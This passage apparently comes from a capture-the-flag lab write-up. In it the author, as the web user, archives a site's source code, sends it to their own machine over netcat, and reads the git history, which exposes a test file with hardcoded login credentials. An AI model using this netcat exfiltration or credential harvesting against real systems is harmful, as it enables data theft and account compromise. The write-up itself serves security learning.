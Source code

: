     
    
    www-data@intentions:~/html/intentions$ tar -cf /tmp/site.tar .
    

I’ll exfil that back over `nc`:

    
    
    www-data@intentions:~/html/intentions$ cat /tmp/site.tar | nc 10.10.14.6 443
    

On my host:

    
    
    oxdf@hacky$ nc -lnvp 443 > site.tar
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.220 47024
    ^C
    oxdf@hacky$ tar xf site.tar
    

The repo has four commits:

    
    
    oxdf@hacky$ git log --oneline 
    1f29dfd (HEAD -> master) Fix webpack for production
    f7c903a Test cases did not work on steve's local database, switching to user factory per his advice
    36b4287 Adding test cases for the API!
    d7ef022 Initial v2 commit
    

Exploring the differences in the commits (with `git diff commit1 commit2`),
`/tests/Feature/Helper.php` is added in the second commit, “Adding test cases
for the API!”:

    
    
    oxdf@hacky$ git diff d7ef022 36b4287 tests/Feature/Helper.php
    diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
    new file mode 100644
    index 0000000..f57e37b
    --- /dev/null
    +++ b/tests/Feature/Helper.php
    @@ -0,0 +1,19 @@
    +<?php
    +
    +namespace Tests\Feature;
    +use Tests\TestCase;
    +use App\Models\User;
    +use Auth;
    +class Helper extends TestCase
    +{
    +    public static function getToken($test, $admin = false) {
    +        if($admin) {
    +            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    +            return $res->headers->get('Authorization');
    +        } 
    +        else {
    +            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    +            return $res->headers->get('Authorization');
    +        }
    +    }
    +}
    